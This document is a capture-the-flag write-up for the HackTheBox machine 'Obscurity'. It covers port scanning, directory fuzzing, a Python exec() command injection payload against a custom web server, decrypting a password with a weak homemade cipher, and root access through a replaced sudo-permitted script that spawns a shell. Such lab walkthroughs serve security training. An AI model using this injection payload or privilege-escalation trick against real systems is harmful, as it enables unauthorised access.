

# Obscurity
## Enumeration
- `nmap`
```
└─$ nmap -Pn -p- 10.10.10.168 --min-rate 5000        
Starting Nmap 7.94 ( https://nmap.org ) at 2023-10-29 20:06 GMT
Nmap scan report for 10.10.10.168 (10.10.10.168)
Host is up (0.17s latency).
Not shown: 65531 filtered tcp ports (no-response)
PORT     STATE  SERVICE
22/tcp   open   ssh
80/tcp   closed http
8080/tcp open   http-proxy
9000/tcp closed cslistener

Nmap done: 1 IP address (1 host up) scanned in 41.33 seconds

```
```
└─$ nmap -Pn -p- -sC -sV 10.10.10.168 --min-rate 5000
Starting Nmap 7.94 ( https://nmap.org ) at 2023-10-29 20:10 GMT
Nmap scan report for 10.10.10.168 (10.10.10.168)
Host is up (0.18s latency).
Not shown: 65531 filtered tcp ports (no-response)
PORT     STATE  SERVICE    VERSION
22/tcp   open   ssh        OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 33:d3:9a:0d:97:2c:54:20:e1:b0:17:34:f4:ca:70:1b (RSA)
|   256 f6:8b:d5:73:97:be:52:cb:12:ea:8b:02:7c:34:a3:d7 (ECDSA)
|_  256 e8:df:55:78:76:85:4b:7b:dc:70:6a:fc:40:cc:ac:9b (ED25519)
80/tcp   closed http
8080/tcp open   http-proxy BadHTTPServer
|_http-server-header: BadHTTPServer
|_http-title: 0bscura
| fingerprint-strings: 
|   GetRequest: 
|     HTTP/1.1 200 OK
|     Date: Sun, 29 Oct 2023 20:10:17
|     Server: BadHTTPServer
|     Last-Modified: Sun, 29 Oct 2023 20:10:17
|     Content-Length: 4171
|     Content-Type: text/html
|     Connection: Closed
|     <!DOCTYPE html>
|     <html lang="en">
|     <head>
|     <meta charset="utf-8">
|     <title>0bscura</title>
|     <meta http-equiv="X-UA-Compatible" content="IE=Edge">
|     <meta name="viewport" content="width=device-width, initial-scale=1">
|     <meta name="keywords" content="">
|     <meta name="description" content="">
|     <!-- 
|     Easy Profile Template
|     http://www.templatemo.com/tm-467-easy-profile
|     <!-- stylesheet css -->
|     <link rel="stylesheet" href="css/bootstrap.min.css">
|     <link rel="stylesheet" href="css/font-awesome.min.css">
|     <link rel="stylesheet" href="css/templatemo-blue.css">
|     </head>
|     <body data-spy="scroll" data-target=".navbar-collapse">
|     <!-- preloader section -->
|     <!--
|     <div class="preloader">
|     <div class="sk-spinner sk-spinner-wordpress">
|   HTTPOptions: 
|     HTTP/1.1 200 OK
|     Date: Sun, 29 Oct 2023 20:10:18
|     Server: BadHTTPServer
|     Last-Modified: Sun, 29 Oct 2023 20:10:18
|     Content-Length: 4171
|     Content-Type: text/html
|     Connection: Closed
|     <!DOCTYPE html>
|     <html lang="en">
|     <head>
|     <meta charset="utf-8">
|     <title>0bscura</title>
|     <meta http-equiv="X-UA-Compatible" content="IE=Edge">
|     <meta name="viewport" content="width=device-width, initial-scale=1">
|     <meta name="keywords" content="">
|     <meta name="description" content="">
|     <!-- 
|     Easy Profile Template
|     http://www.templatemo.com/tm-467-easy-profile
|     <!-- stylesheet css -->
|     <link rel="stylesheet" href="css/bootstrap.min.css">
|     <link rel="stylesheet" href="css/font-awesome.min.css">
|     <link rel="stylesheet" href="css/templatemo-blue.css">
|     </head>
|     <body data-spy="scroll" data-target=".navbar-collapse">
|     <!-- preloader section -->
|     <!--
|     <div class="preloader">
|_    <div class="sk-spinner sk-spinner-wordpress">
9000/tcp closed cslistener
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port8080-TCP:V=7.94%I=7%D=10/29%Time=653EBC5A%P=x86_64-pc-linux-gnu%r(G
SF:etRequest,10FC,"HTTP/1\.1\x20200\x20OK\nDate:\x20Sun,\x2029\x20Oct\x202
SF:023\x2020:10:17\nServer:\x20BadHTTPServer\nLast-Modified:\x20Sun,\x2029
SF:\x20Oct\x202023\x2020:10:17\nContent-Length:\x204171\nContent-Type:\x20
SF:text/html\nConnection:\x20Closed\n\n<!DOCTYPE\x20html>\n<html\x20lang=\
SF:"en\">\n<head>\n\t<meta\x20charset=\"utf-8\">\n\t<title>0bscura</title>
SF:\n\t<meta\x20http-equiv=\"X-UA-Compatible\"\x20content=\"IE=Edge\">\n\t
SF:<meta\x20name=\"viewport\"\x20content=\"width=device-width,\x20initial-
SF:scale=1\">\n\t<meta\x20name=\"keywords\"\x20content=\"\">\n\t<meta\x20n
SF:ame=\"description\"\x20content=\"\">\n<!--\x20\nEasy\x20Profile\x20Temp
SF:late\nhttp://www\.templatemo\.com/tm-467-easy-profile\n-->\n\t<!--\x20s
SF:tylesheet\x20css\x20-->\n\t<link\x20rel=\"stylesheet\"\x20href=\"css/bo
SF:otstrap\.min\.css\">\n\t<link\x20rel=\"stylesheet\"\x20href=\"css/font-
SF:awesome\.min\.css\">\n\t<link\x20rel=\"stylesheet\"\x20href=\"css/templ
SF:atemo-blue\.css\">\n</head>\n<body\x20data-spy=\"scroll\"\x20data-targe
SF:t=\"\.navbar-collapse\">\n\n<!--\x20preloader\x20section\x20-->\n<!--\n
SF:<div\x20class=\"preloader\">\n\t<div\x20class=\"sk-spinner\x20sk-spinne
SF:r-wordpress\">\n")%r(HTTPOptions,10FC,"HTTP/1\.1\x20200\x20OK\nDate:\x2
SF:0Sun,\x2029\x20Oct\x202023\x2020:10:18\nServer:\x20BadHTTPServer\nLast-
SF:Modified:\x20Sun,\x2029\x20Oct\x202023\x2020:10:18\nContent-Length:\x20
SF:4171\nContent-Type:\x20text/html\nConnection:\x20Closed\n\n<!DOCTYPE\x2
SF:0html>\n<html\x20lang=\"en\">\n<head>\n\t<meta\x20charset=\"utf-8\">\n\
SF:t<title>0bscura</title>\n\t<meta\x20http-equiv=\"X-UA-Compatible\"\x20c
SF:ontent=\"IE=Edge\">\n\t<meta\x20name=\"viewport\"\x20content=\"width=de
SF:vice-width,\x20initial-scale=1\">\n\t<meta\x20name=\"keywords\"\x20cont
SF:ent=\"\">\n\t<meta\x20name=\"description\"\x20content=\"\">\n<!--\x20\n
SF:Easy\x20Profile\x20Template\nhttp://www\.templatemo\.com/tm-467-easy-pr
SF:ofile\n-->\n\t<!--\x20stylesheet\x20css\x20-->\n\t<link\x20rel=\"styles
SF:heet\"\x20href=\"css/bootstrap\.min\.css\">\n\t<link\x20rel=\"styleshee
SF:t\"\x20href=\"css/font-awesome\.min\.css\">\n\t<link\x20rel=\"styleshee
SF:t\"\x20href=\"css/templatemo-blue\.css\">\n</head>\n<body\x20data-spy=\
SF:"scroll\"\x20data-target=\"\.navbar-collapse\">\n\n<!--\x20preloader\x2
SF:0section\x20-->\n<!--\n<div\x20class=\"preloader\">\n\t<div\x20class=\"
SF:sk-spinner\x20sk-spinner-wordpress\">\n");
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 76.99 seconds

```

- Web server


- `feroxbuster`
```
└─$ feroxbuster -u http://10.10.10.168:8080 -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -x txt,html,py --depth 2

 ___  ___  __   __     __      __         __   ___
|__  |__  |__) |__) | /  `    /  \ \_/ | |  \ |__
|    |___ |  \ |  \ | \__,    \__/ / \ | |__/ |___
by Ben "epi" Risher 🤓                 ver: 2.10.0
───────────────────────────┬──────────────────────
 🎯  Target Url            │ http://10.10.10.168:8080
 🚀  Threads               │ 50
 📖  Wordlist              │ /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt
 👌  Status Codes          │ [200, 204, 301, 302, 307, 308, 401, 403, 405, 500]
 💥  Timeout (secs)        │ 7
 🦡  User-Agent            │ feroxbuster/2.10.0
 💉  Config File           │ /etc/feroxbuster/ferox-config.toml
 🔎  Extract Links         │ true
 💲  Extensions            │ [txt, php, html, py]
 🏁  HTTP methods          │ [GET]
 🔃  Recursion Depth       │ 2
───────────────────────────┴──────────────────────
 🏁  Press [ENTER] to use the Scan Management Menu™
──────────────────────────────────────────────────
200      GET       18l       33w      414c http://10.10.10.168:8080/js/custom.js
200      GET      282l      556w     4706c http://10.10.10.168:8080/css/templatemo-blue.css
200      GET        4l       64w    23666c http://10.10.10.168:8080/css/font-awesome.min.css
200      GET        4l       50w     4235c http://10.10.10.168:8080/js/jquery.backstretch.min.js
200      GET        7l      430w    36816c http://10.10.10.168:8080/js/bootstrap.min.js
200      GET        0l        0w    93100c http://10.10.10.168:8080/js/jquery.min.js
200      GET        0l        0w   122540c http://10.10.10.168:8080/css/bootstrap.min.css
200      GET      123l      367w     4171c http://10.10.10.168:8080/
200      GET      123l      367w     4171c http://10.10.10.168:8080/index.html

```
## Foothold
- We notice `Message to server devs: the current source code for the web server is in 'SuperSecureServer.py' in the secret development directory` on the web page
  - We can start fuzzing
    - But I had issues with running whole wordlist
    - Assuming it was a moved to development directory, we can grep only `dev` words from the wordlist
```
└─$ grep "dev" /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt > dev.list                                                                   
```
```
└─$ wc -l dev.list 
343 dev.list
```
```
└─$ wfuzz -u http://10.10.10.168:8080/FUZZ/SuperSecureServer.py -w dev.list --hw 14
 /usr/lib/python3/dist-packages/wfuzz/__init__.py:34: UserWarning:Pycurl is not compiled against Openssl. Wfuzz might not work correctly when fuzzing SSL sites. Check Wfuzz's documentation for more information.
********************************************************
* Wfuzz 3.1.0 - The Web Fuzzer                         *
********************************************************

Target: http://10.10.10.168:8080/FUZZ/SuperSecureServer.py
Total requests: 343

=====================================================================
ID           Response   Lines    Word       Chars       Payload                                                                                                                                                                    
=====================================================================

000000009:   200        170 L    498 W      5892 Ch     "develop"                                                                                                                                                                  
000000217:   404        6 L      18 W       195 Ch      "IBM%20dev%20works%20release%20vfin"                                                                                                                                       

Total time: 14.85130
Processed Requests: 343
Filtered Requests: 341
Requests/sec.: 23.09561

```

- http://10.10.10.168:8080/develop/SuperSecureServer.py


- Interesting function with `exec`
```
<SNIP>
def serveDoc(self, path, docRoot):
  path = urllib.parse.unquote(path)
  try:
    info = "output = 'Document: {}'" # Keep the output for later debug
    exec(info.format(path)) # This is how you do string formatting, right?
    cwd = os.path.dirname(os.path.realpath(__file__))
    docRoot = os.path.join(cwd, docRoot)
    if path == "/":
        path = "/index.html"
    requested = os.path.join(docRoot, path[1:])
    if os.path.isfile(requested):
      mime = mimetypes.guess_type(requested)
      mime = (mime if mime[0] != None else "text/html")
      mime = MIMES[requested.split(".")[-1]]
      try:
        with open(requested, "r") as f:
          data = f.read()
      except:
        with open(requested, "rb") as f:
          data = f.read()
      status = "200"
    else:
        errorPage = os.path.join(docRoot, "errors", "404.html")
        mime = "text/html"
        with open(errorPage, "r") as f:
          data = f.read().format(path)
        status = "404"
  except Exception as e:
      print(e)
      errorPage = os.path.join(docRoot, "errors", "500.html")
      mime = "text/html"
      with open(errorPage, "r") as f:
        data = f.read()
      status = "500"
  return {"body": data, "mime": mime, "status": status}
```

- The `serveDoc` is called from `handleRequest`
  - `self.good = True` is hardcoded in `__init__` function of `Request` class
  - So `serveDoc` is always called
```
def handleRequest(self, request, conn, address):
    if request.good:
        document = self.serveDoc(request.doc, DOC_ROOT)
        statusNum=document["status"]
    else:
        document = self.serveDoc("/errors/400.html", DOC_ROOT)
        statusNum="400"
    body = document["body"]
<SNIP>
```

- `handleRequest` is called from `listenToClient`
```
def listenToClient(self, client, address):
    size = 1024
    while True:
        try:
            data = client.recv(size)
            if data:
                # Set the response to echo back the received data 
                req = Request(data.decode())
                self.handleRequest(req, client, address)
                client.shutdown()
                client.close()
            else:
                raise error('Client disconnected')
        except:
            client.close()
            return False
```

- We can test an execution
```
└─$ python3                  
Python 3.11.5 (main, Aug 29 2023, 15:31:31) [GCC 13.2.0] on linux
Type "help", "copyright", "credits" or "license" for more information.
>>> import os
>>> info = "output = 'Document: {}'"
>>> path = "/index.html"
>>> exec(info.format(path))
>>> output
'Document: /index.html'
>>> 
```

- Inject `cmd`
```
>>> path = "/index.html'; os.system('echo TEST');'"
>>> exec(info.format(path))
TEST
>>> 
```

- Let's try to get a `ping`


- We have our `rce`
  - Let's get reverse shell



## User
- `robert`'s home directory
```
www-data@obscure:/$ ls -lha home/robert/
total 60K
drwxr-xr-x 7 robert robert 4.0K May  9  2022 .
drwxr-xr-x 3 root   root   4.0K May  9  2022 ..
lrwxrwxrwx 1 robert robert    9 Sep 28  2019 .bash_history -> /dev/null
-rw-r--r-- 1 robert robert  220 Apr  4  2018 .bash_logout
-rw-r--r-- 1 robert robert 3.7K Apr  4  2018 .bashrc
drwxr-xr-x 2 root   root   4.0K May  9  2022 BetterSSH
drwx------ 2 robert robert 4.0K May  9  2022 .cache
-rw-rw-r-- 1 robert robert   94 Sep 26  2019 check.txt
drwxr-x--- 3 robert robert 4.0K May  9  2022 .config
drwx------ 3 robert robert 4.0K May  9  2022 .gnupg
drwxrwxr-x 3 robert robert 4.0K May  9  2022 .local
-rw-rw-r-- 1 robert robert  185 Oct  4  2019 out.txt
-rw-rw-r-- 1 robert robert   27 Oct  4  2019 passwordreminder.txt
-rw-r--r-- 1 robert robert  807 Apr  4  2018 .profile
-rwxrwxr-x 1 robert robert 2.5K Oct  4  2019 SuperSecureCrypt.py
-rwx------ 1 robert robert   33 Oct 29 20:02 user.txt
```

- `txt` files
```
www-data@obscure:/home/robert$ cat out.txt 
¦ÚÈêÚÞØÛÝÝ×ÐÊßÞÊÚÉæßÝËÚÛÚêÙÉëéÑÒÝÍÐêÆáÙÞãÒÑÐáÙ¦ÕæØãÊÎÍßÚêÆÝáäèÎÍÚÎëÑÓäáÛÌ×v
www-data@obscure:/home/robert$ cat check.txt 
Encrypting this file with your key should result in out.txt, make sure your key is correct! 
```

- The encryption is simple, it basically add `char` values and `mod` them
  - So we can decrypt if we enter plaintext instead of `key` to find a key
```
www-data@obscure:/home/robert$ python3 SuperSecureCrypt.py -i out.txt -k "Encrypting this file with your key should result in out.txt, make sure your key is correct!" -d -o /dev/shm/key.txt
################################
#           BEGINNING          #
#    SUPER SECURE ENCRYPTOR    #
################################
  ############################
  #        FILE MODE         #
  ############################
Opening file out.txt...
Decrypting...
Writing to /dev/shm/key.txt...
www-data@obscure:/home/robert$ cat /dev/shm/key.txt
alexandrovichalexandrovichalexandrovichalexandrovichalexandrovichalexandrovichalexandrovich
```

- Since we know the key, we can decrypt `passwordreminder.txt`
```
www-data@obscure:/home/robert$ python3 SuperSecureCrypt.py -i passwordreminder.txt -k "alexandrovich" -d  -o /dev/shm/passwd
################################
#           BEGINNING          #
#    SUPER SECURE ENCRYPTOR    #
################################
  ############################
  #        FILE MODE         #
  ############################
Opening file passwordreminder.txt...
Decrypting...
Writing to /dev/shm/passwd...
www-data@obscure:/home/robert$ cat /dev/shm/passwd 
SecThruObsFTW
www-data@obscure:/home/robert$ su - robert
Password: 
robert@obscure:~$
```


## Root
- `sudo`
```
robert@obscure:~$ sudo -l
Matching Defaults entries for robert on obscure:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User robert may run the following commands on obscure:
    (ALL) NOPASSWD: /usr/bin/python3 /home/robert/BetterSSH/BetterSSH.py

```

- Since we are the owners `robert`'s home directory, we can `move` items inside it
  - We will rename `BetterSSH` folder and create our folder with malicious script
```
#!/usr/bin/env python3

import pty

pty.spawn("bash")
```
```
robert@obscure:~$ mv BetterSSH{,-old}
robert@obscure:~$ ls
BetterSSH-old  check.txt  out.txt  passwordreminder.txt  SuperSecureCrypt.py  user.txt
robert@obscure:~$ mkdir BetterSSH
robert@obscure:~$ cd BetterSSH
robert@obscure:~/BetterSSH$ nano BetterSSH.py
robert@obscure:~/BetterSSH$ sudo /usr/bin/python3 /home/robert/BetterSSH/BetterSSH.py
root@obscure:~/BetterSSH# 
```

- There are other ways to privesc
  - Check [0xdf](https://0xdf.gitlab.io/2020/05/09/htb-obscurity.html#path-1-shadow-race-condition)